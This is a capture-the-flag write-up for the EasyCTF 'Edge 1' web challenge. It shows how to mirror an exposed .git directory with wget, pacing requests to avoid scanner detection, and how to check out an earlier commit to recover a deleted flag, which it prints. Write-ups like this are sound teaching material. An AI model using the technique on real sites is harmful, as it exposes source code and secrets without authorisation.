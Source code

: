 Edge 1
======
* **100 points**
* **Category: Web**
* **Problem statement:** _We found Edge inc's website! Take a look at it here._
* **Hint:** _No hint_


We found this challenge quite hard, because it was hard to figure out what to do. Let it suffice to say, we tried _many_ ways to solve this, as theres no reason to discuss the failed solution attempts.

The staff made it quite clear that one should not use dirbuster for this challenge, so we also took that to mean that we should also not be guessing directories. (We looked at /js and /css, and the un-mini-d bootstrap files and tried manually guessing many directories, but we abandoned directory guessing upon being told dirbusting was not necessary)

What you had to do however, was guess the `.git` directory.

![Git Directory image](gitDir.png)

Once you did that, do a recursive download of the directory. I did: `wget -r -w 2 -nc http://edge1.web.easyctf.com/.git/`

The `-w 2` was necessary to avoid their dirbuster sensors that would make every attempted site give 403 errors. This for some reason downloaded many `index.php?<some strange str>` files that were irrelevant, which I had to delete.

Do a `git log` on the base directory and see:
``` html
$ git log
commit ee9061b25d8a35bae8380339f187b44dc26f4999
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:47 2017 +0000

    Whoops! Remove flag.

commit afdf86202dc8a3c3d671f2106d5cffa593f2b320
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:45 2017 +0000

    Initial.

commit 15ca375e54f056a576905b41a417b413c57df6eb
Author: Fernando <fermayo@gmail.com>
Date:   Sat Dec 14 12:50:09 2013 -0300

    initial version

commit 8ac4f76df2ce8db696d75f5f146f4047a315af22
Author: Fernando Mayo <fermayo@gmail.com>
Date:   Sat Dec 14 07:36:18 2013 -0800

    Initial commit
```

So we just need to get the commit before Michael deleted the flag!

Do git checkout afdf86202dc8a3c3d671f2106d5cffa593f2b320

Navigate to the base directory, and theres a flag.txt!

``` bash
$ cat flag.txt
easyctf{w3_ev3n_u53_git}
```
